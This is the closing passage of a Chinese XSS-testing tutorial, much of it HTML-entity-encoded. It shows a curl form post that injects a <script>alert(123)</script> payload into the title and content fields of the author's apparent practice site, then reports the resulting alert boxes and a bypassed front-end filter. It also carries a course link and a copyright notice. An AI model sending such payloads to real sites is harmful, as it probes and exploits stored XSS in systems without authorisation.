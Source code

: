 -H &apos;Origin: http://permeate.songboy.net&apos; -H &apos;Upgrade-Insecure-Requests: 1&apos; -H &apos;Content-Type: application/x-www-form-urlencoded&apos; -H &apos;User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36&apos; -H &apos;Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8&apos; -H &apos;Referer: http://permeate.songboy.net/home/fatie.php?bk=6&apos; -H &apos;Accept-Encoding: gzip, deflate&apos; -H &apos;Accept-Language: zh-CN,zh;q=0.9,en;q=0.8&apos; -H &apos;Cookie: __cfduid=defc970ef7081e30aedd761da5762b1891532003579; UM_distinctid=1655a61a23343c-03f0904540a333-34657908-1fa400-1655a61a234323; PHPSESSID=rufhm0741qfv55cpfnc80k1g4l&apos; --data &apos;csrf_token=3908&amp;bk=6&amp;title=222%3Cscript+%3Ealert%28123%29%3C%2Fscript%3E&amp;content=222%3Cscript+%3Ealert%28123%29%3C%2Fscript%3E&apos; --compressed</code></pre><p>&#x66FF;&#x6362;&#x5B8C;&#x6210;&#x4E4B;&#x540E;&#xFF0C;&#x7B14;&#x8005;&#x5C06;&#x6B64;&#x5185;&#x5BB9;&#x590D;&#x5236;&#x5230;&#x7EC8;&#x7AEF;&#x5F53;&#x4E2D;&#xFF08;&#x5982;&#x679C;&#x8BFB;&#x8005;&#x7528;&#x7684;&#x662F;windows&#x64CD;&#x4F5C;&#x7CFB;&#x7EDF;&#xFF0C;&#x53EF;&#x4EE5;&#x4E0B;&#x8F7D;&#x4E00;&#x4E2A;cmder&#xFF09;&#xFF0C;&#x7136;&#x540E;&#x6309;&#x4E0B;&#x56DE;&#x8F66;&#x952E;&#xFF0C;&#x7ED3;&#x679C;&#x5982;&#x4E0B;&#x56FE;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095220?w=963&amp;h=282" src="https://static.alili.tech/img/remote/1460000016095220?w=963&amp;h=282" alt="image" title="image"></span></p><h3>5.5 &#x7ED3;&#x679C;&#x5206;&#x6790;</h3><p>&#x5728;&#x8FD4;&#x56DE;&#x7ED3;&#x679C;&#x5F53;&#x4E2D;&#x53EF;&#x4EE5;&#x770B;&#x5230;&#x63D0;&#x793A;&#x53D1;&#x5E16;&#x6210;&#x529F;&#xFF0C;&#x6B64;&#x65F6;&#x5C31;&#x7B14;&#x8005;&#x5DF2;&#x7ECF;&#x6210;&#x529F;&#x53D1;&#x5E03;&#x4E86;&#x4E00;&#x4E2A;&#x65B0;&#x5E16;&#x5B50;&#xFF0C;&#x56DE;&#x5230;&#x5E16;&#x5B50;&#x5217;&#x8868;&#x5F53;&#x4E2D;&#x770B;&#x5230;&#x6709;&#x4E09;&#x6761;&#x5E16;&#x5B50;&#xFF0C;&#x5728;&#x6700;&#x540E;&#x9762;&#x7684;&#x5E16;&#x5B50;&#x5219;&#x662F;&#x7B14;&#x8005;&#x65B0;&#x53D1;&#x5E03;&#x7684;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095221?w=897&amp;h=206" src="https://static.alili.tech/img/remote/1460000016095221?w=897&amp;h=206" alt="image" title="image"></span></p><p>&#x6253;&#x5F00;&#x8BE6;&#x60C5;&#x9875;&#xFF0C;&#x7B14;&#x8005;&#x88AB;&#x5F39;&#x4E86;&#x4E24;&#x6B21;&#x63D0;&#x793A;&#x6846;&#xFF0C;&#x8BF4;&#x660E;&#x6807;&#x9898;&#x548C;&#x5185;&#x5BB9;&#x5F53;&#x4E2D;&#x7684;payload&#x90FD;&#x88AB;&#x89E6;&#x53D1;,&#x5E76;&#x4E14;&#x5728;&#x63A7;&#x5236;&#x53F0;&#x5F53;&#x4E2D;&#x4E5F;&#x53EF;&#x4EE5;&#x770B;&#x5230;<code>script</code>&#x53D8;&#x6210;&#x4E86;DOM&#x8282;&#x70B9;&#xFF0C;&#x800C;&#x4E0D;&#x662F;&#x6587;&#x672C;&#x5C55;&#x73B0;&#x51FA;&#x6765;&#xFF0C;&#x5982;&#x4E0B;&#x56FE;&#x6240;&#x793A;</p><p><span class="img-wrap"><img data-src="/img/remote/1460000016095222?w=1347&amp;h=448" src="https://static.alili.tech/img/remote/1460000016095222?w=1347&amp;h=448" alt="image" title="image"></span></p><p>&#x770B;&#x5230;&#x6B64;&#x5904;&#x8BF4;&#x660E;&#x7B14;&#x8005;&#x5DF2;&#x7ECF;&#x6210;&#x529F;&#x7ED5;&#x8FC7;&#x524D;&#x7AEF;XSS&#x8FC7;&#x6EE4;&#x5668;&#xFF0C;&#x665A;&#x4E00;&#x4E9B;&#x5728;&#x53D1;&#x8868;&#x4E00;&#x7BC7;&#x5DE5;&#x5177;&#x76D8;&#xFF0C;&#x548C;&#x9632;&#x5FA1;&#x7BC7;&#xFF0C;&#x5927;&#x5BB6;&#x6709;&#x5174;&#x8DA3;&#x4E5F;&#x53EF;&#x4EE5;&#x652F;&#x6301;&#x4E00;&#x4E0B;&#x7B14;&#x8005;&#x7684;&#x89C6;&#x9891;&#x6559;&#x7A0B;&#xFF0C;URL&#x5730;&#x5740;&#x5982;&#x4E0B;</p><pre><code>https://coding.imooc.com/class/242.html</code></pre><p>Thanks&#x266A;(&#xFF65;&#x3C9;&#xFF65;)&#xFF89;</p><hr><p>&#x4F5C;&#x8005;:&#x6C64;&#x9752;&#x677E;</p><p>&#x5FAE;&#x4FE1;:songboy8888</p><p>&#x65E5;&#x671F;:2018-08-21</p>
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，
本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。
原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
快速找出网站中可能存在的XSS漏洞实践(一)

## 原文链接
[https://segmentfault.com/a/1190000016095198](https://segmentfault.com/a/1190000016095198)

